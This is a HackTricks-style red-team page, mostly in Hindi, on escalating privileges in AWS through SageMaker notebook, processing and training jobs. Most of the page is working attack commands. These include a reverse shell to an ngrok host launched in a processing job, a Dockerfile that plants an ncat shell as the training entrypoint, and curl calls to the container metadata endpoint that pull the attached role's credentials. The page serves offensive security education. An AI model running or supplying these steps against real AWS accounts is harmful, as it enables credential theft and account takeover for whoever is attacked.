 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM भूमिका के साथ एक नोटबुक बनाना शुरू करें जो इसके साथ जुड़ी हो:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
उत्तर में `NotebookInstanceArn` फ़ील्ड होना चाहिए, जिसमें नए बनाए गए नोटबुक उदाहरण का ARN होगा। फिर हम `create-presigned-notebook-instance-url` API का उपयोग करके एक URL उत्पन्न कर सकते हैं जिसका उपयोग हम नोटबुक उदाहरण तक पहुँचने के लिए कर सकते हैं जब यह तैयार हो जाए:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate to the URL with the browser and click on \`Open JupyterLab\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

अब IAM भूमिका के मेटाडेटा क्रेडेंशियल्स तक पहुंचना संभव है।

**संभावित प्रभाव:** निर्दिष्ट सागेमेकर सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreatePresignedNotebookInstanceUrl`

यदि Jupyter **नोटबुक पहले से चल रहे हैं** और आप उन्हें `sagemaker:ListNotebookInstances` (या किसी अन्य तरीके से) सूचीबद्ध कर सकते हैं। आप उनके लिए **एक URL उत्पन्न कर सकते हैं, उन तक पहुंच सकते हैं, और पिछले तकनीक में बताए गए अनुसार क्रेडेंशियल्स चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**संभावित प्रभाव:** सागेमेकर सेवा भूमिका में प्रिवेस्क।

### `sagemaker:CreateProcessingJob,iam:PassRole`

उन अनुमतियों के साथ एक हमलावर **सागेमेकर को एक प्रोसेसिंगजॉब** निष्पादित करने के लिए मजबूर कर सकता है जिसमें एक सागेमेकर भूमिका संलग्न है। हमलावर उस कंटेनर की परिभाषा निर्दिष्ट कर सकता है जो एक **AWS प्रबंधित ECS खाता उदाहरण** में चलाया जाएगा, और **संलग्न IAM भूमिका के क्रेडेंशियल्स चुरा सकता है**।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**संभावित प्रभाव:** निर्दिष्ट सागेमेकर सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर एक प्रशिक्षण नौकरी बना सकेगा, **इस पर एक मनमाना कंटेनर चलाते हुए** जिसमें एक **भूमिका संलग्न** होगी। इसलिए, हमलावर भूमिका के क्रेडेंशियल्स चुरा सकेगा।

{% hint style="warning" %}
यह परिदृश्य पिछले वाले की तुलना में शोषण करने के लिए अधिक कठिन है क्योंकि आपको एक डॉकर इमेज उत्पन्न करनी होगी जो रेव शेल या क्रेड्स को सीधे हमलावर को भेजेगी (आप प्रशिक्षण नौकरी की कॉन्फ़िगरेशन में प्रारंभिक कमांड निर्दिष्ट नहीं कर सकते)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**संभावित प्रभाव:** निर्दिष्ट सागेमेकर सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर (संभावित रूप से) एक **हाइपरपैरामीटर प्रशिक्षण कार्य** बनाने में सक्षम होगा, **इस पर एक मनमाना कंटेनर चलाते हुए** और इसके साथ एक **भूमिका संलग्न** करते हुए।\
&#xNAN;_&#x49; ने समय की कमी के कारण इसका लाभ नहीं उठाया, लेकिन यह पिछले शोषणों के समान दिखता है, शोषण विवरण के साथ PR भेजने के लिए स्वतंत्र महसूस करें।_

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) जांचें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर हमें **फॉलो** करें।**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
